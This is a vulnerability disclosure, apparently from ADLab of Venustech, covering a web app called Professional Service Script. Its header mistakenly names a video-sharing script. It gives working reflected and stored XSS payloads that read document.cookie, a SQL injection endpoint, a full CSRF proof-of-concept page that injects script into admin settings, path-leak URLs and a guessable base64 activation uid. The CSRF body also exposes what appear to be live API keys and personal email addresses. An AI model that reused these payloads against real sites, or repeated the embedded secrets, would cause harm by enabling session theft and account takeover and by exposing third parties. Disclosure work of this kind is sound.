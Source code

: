 ### Professional Service Script- the lastest version - SQL Injection/Stored-XSS/Reflect-XSS/Arbitrary-Binding/CSRF/Sensitive-Data-Leak[2]


#### ADLab of Venustech


Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://ordermanagementscript.com/demo/professional-service/admin/bannerview.php?view=27%27%22%3E666%3Cimg%20src=x%20onerror=console.log(document.cookie)%3E666%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss2.png)


##### Stored-XSS


```
http://ordermanagementscript.com/demo/professional-service/admin/general_settingupd.php
```

POST parameters:

```
------WebKitFormBoundary2ZjWQDBIsgNhKq3e
Content-Disposition: form-data; name="website_title"

Professional Service'"><svg/onload=alert(123)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss1.png)


#### SQL Injection:

##### sqli1
```
http://ordermanagementscript.com/demo/professional-service/admin/review.php?id=70
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/sqli.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/ordermanagementscript.com\/demo\/professional-service\/admin\/general_settingupd.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2ZjWQDBIsgNhKq3e");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_title\"\r\n" + 
          "\r\n" + 
          "Professional Service\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_keyword\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eProfessional Service\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_url\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"commonword\"\r\n" + 
          "\r\n" + 
          "Professional\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_add\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eCompanyName,\x3c/p\x3e\r\n" + 
          "\x3cp\x3ecompany address,\x3c/p\x3e\r\n" + 
          "\x3cp\x3eLocation.\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_email\"\r\n" + 
          "\r\n" + 
          "vsjayan@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"paypal_email\"\r\n" + 
          "\r\n" + 
          "inet.prabhu1716@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"currency\"\r\n" + 
          "\r\n" + 
          "USD\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fb_url\"\r\n" + 
          "\r\n" + 
          "https://www.facebook.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"tw_url\"\r\n" + 
          "\r\n" + 
          "https://twitter.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"linkedinurl\"\r\n" + 
          "\r\n" + 
          "https://in.linkedin.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gplusurl\"\r\n" + 
          "\r\n" + 
          "https://plus.google.com/explore\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"Img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"banner_img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbappid\"\r\n" + 
          "\r\n" + 
          "320789545076739\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbkey\"\r\n" + 
          "\r\n" + 
          "0e0e841f7583ea866e11839f599c0ffc\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbreurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/fblog_new/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gappid\"\r\n" + 
          "\r\n" + 
          "966064226677-t3jl59r6llcg54dou9lro2kak0pf5n4c.apps.googleusercontent.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gkey\"\r\n" + 
          "\r\n" + 
          "rSiRaC22JZqyv9xUWJjoXZjV\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"greurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/google_plus/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"g_submit\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```

This vulnerability does not need evil attacker to login into the user panel.

#### Sensitive-Data-Leak

For example, we can get sensitive info like absolute-path here.
##### Leak1

```
http://ordermanagementscript.com/demo/professional-service/admin/review_userwise.php?id=72%27S
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak1.png)
##### Leak2

```
http://ordermanagementscript.com/demo/professional-service/service-list/category/22/house-cleaning
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak2.png)

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=NTA=
```
After Base64 decode:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding2.png)

So it's easy to predict or enum the uid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.
